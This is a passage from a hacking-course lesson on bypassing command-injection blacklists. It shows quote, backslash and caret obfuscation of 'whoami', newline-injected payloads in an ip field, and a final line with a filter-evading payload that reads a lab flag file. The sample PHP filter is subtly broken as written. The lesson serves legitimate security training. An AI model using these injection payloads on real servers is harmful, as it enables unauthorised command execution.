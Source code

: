 
We have discussed various methods for bypassing single-character filters. However, there are different methods when it comes to bypassing blacklisted commands. A command blacklist usually consists of a set of words, and if we can obfuscate our commands and make them look different, we may be able to bypass the filters.

There are various methods of command obfuscation that vary in complexity, as we will touch upon later with command obfuscation tools. We will cover a few basic techniques that may enable us to change the look of our command to bypass filters manually.

## Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed: ![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_1.jpg)

A basic command blacklist filter in `PHP` would look like the following:

Code: php

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

## Linux & Windows

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

The same works with double-quotes as well:

```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_2.jpg)

As we can see, this method indeed works.

## Linux Only

```bash
who$@ami
w\ho\am\i
```

## Windows Only

```cmd-session
C:\htb> who^ami

21y4d
```

to get the flag: ``ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
